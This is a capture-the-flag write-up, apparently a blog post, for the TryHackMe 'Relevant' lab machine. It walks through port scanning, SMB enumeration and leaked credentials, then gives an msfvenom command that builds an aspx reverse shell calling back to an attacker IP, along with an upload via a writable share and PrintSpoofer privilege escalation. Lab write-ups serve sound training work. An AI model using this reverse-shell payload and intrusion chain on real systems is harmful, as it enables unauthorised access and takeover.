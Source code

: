 ```yaml
---
title: Tryhackme - Relevant
author: Rhovelionz
date: 2022-09-10 07:21:00 +0700
categories: [Tryhackme]
tags: [Samba, SMB, IIS, Psexec, PrintSpoofer, Apppool, test]
image: /assets/img/Post/Relevant.jpeg

---
```


>   **Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using,or in any other way utilizing these materials.These materials are for educational and research purposes only.**


# **<span style='color:#ff5555'>Summary</span>**
***
- SMB share has access to write
- Validate users
- Transfer payload to the SMB share
- Found SEimpersonate token is enabled
- Exploit it with PrintSpooferrr


## **<span style='color:#ff5555'>Port Scan</span>**
***

```terminal
root@rhovelionz:~/THM/Relevant# nmap -A -T4 10.10.213.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-25 11:01 WIB
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 12:41 (0:00:30 remaining)
Nmap scan report for 10.10.213.110
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE        VERSION
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:11:01+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```terminal
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:19:15+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-09-19T07:19:56+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

## **<span style='color:#ff5555'>Website</span>**
***

The relevant website only shows default IIS windows server's page.

![]({{ "/images/thm/Relevant/website.png" | relative_url }})

## **<span style='color:#ff5555'>Fuzzing</span>**
***

Running `gobuster` on the website with unfortunate output.

![]({{ "/images/thm/Relevant/gobuster1.png" | relative_url }})

Since it's windows machine, we need to enumerate SMB based on nmap's result.

## **<span style='color:#ff5555'>Enumerating SMB</span>**
***

Using SMBClient to open SMB shares on the server.

![]({{ "/images/thm/Relevant/smb1.png" | relative_url }})

It shows the **nt4wrksv** share enabled, the next step is to connect with **nt4wrksv** and find out what we can get from it.

![]({{ "/images/thm/Relevant/smb2.png" | relative_url }})

Download the password.txt file stored in it.

The file consists of two base64 encoded credentials

![]({{ "/images/thm/Relevant/encoded1.png" | relative_url }})

After decoding the base64, it reveals credentials for Bob and Bill

![]({{ "/images/thm/Relevant/cred1.png" | relative_url }})

Having these credentials, we can attempt to use it to the target, using **psexec** to check which users is valid.

![]({{ "/images/thm/Relevant/bob.png" | relative_url }})

![]({{ "/images/thm/Relevant/bill.png" | relative_url }})


## **<span style='color:#ff5555'>Special Port</span>**
***

Based on nmap's scan, we also have open port on 49663 which running **Microsoft HTTPAPI httpd**

Running `gobuster` against port 49663 to check subdirectories in it.

![]({{ "/images/thm/Relevant/gobuster2.png" | relative_url }})

To validate that we are on the right path, try add passwords.txt that we found on SMB before.

![]({{ "/images/thm/Relevant/passwordstxt.png" | relative_url }})

It shows the same file that we found in SMB share, that means anything we put on SMB shares because we have write access, and knowing that IIS usually accept an aspx file, we need to craft it and we can download it on the webserver and gain access.

Craft the payload:
```terminal
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.62.230 LPORT=1337 -f aspx -o rhovelionz.aspx
```
Upload it to the smb share

![]({{ "/images/thm/Relevant/uploadtosmbshare.png" | relative_url }})

We need to start netcat listener and open the link on the browser, and we are in.

![]({{ "/images/thm/Relevant/netcat2.png" | relative_url }})

## **<span style='color:#ff5555'>Escalate to Administrator</span>**
***

There is an exploit to abuse SeImpersonatePrivilege token that is enabled, that means token impersonation could be used to escalate to the **administrator**.

![]({{ "/images/thm/Relevant/seimpersonate.png" | relative_url }})

We will be using `PrintSpoofer`, download it and tranfer the exploit file via SMB share.

![]({{ "/images/thm/Relevant/uploadprintspoofer.png" | relative_url }})

Executing the exploit with command with -i to interact with new process and -c cmd to run CMD after execution.

![]({{ "/images/thm/Relevant/execexploit.png" | relative_url }})

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})

> [Tartarus - Tryhackme](https://tryhackme.com/room/relevant)

